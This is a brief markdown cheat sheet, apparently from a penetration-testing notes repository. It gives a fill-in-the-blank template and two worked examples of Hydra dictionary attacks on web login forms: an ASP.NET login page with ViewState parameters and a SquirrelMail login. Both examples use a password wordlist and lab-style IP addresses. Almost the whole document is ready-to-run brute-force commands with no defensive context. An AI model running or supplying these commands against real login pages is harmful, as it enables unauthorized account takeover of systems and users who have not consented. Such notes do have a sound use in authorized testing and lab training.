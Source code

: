 # Hydra - Webpage

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### Webpage Dictionary Attack:
```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] http-post-form "/[LOGIN-PAGE-PATH]:[REQUEST-PAYLOAD]:[LOGIN-FAIL-TEXT]"
```
Example:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.86.128 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```
Another Example:
```
hydra -l Kyser -P wordlist.txt 10.10.174.36 -V http-form-post ‘/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.’
```
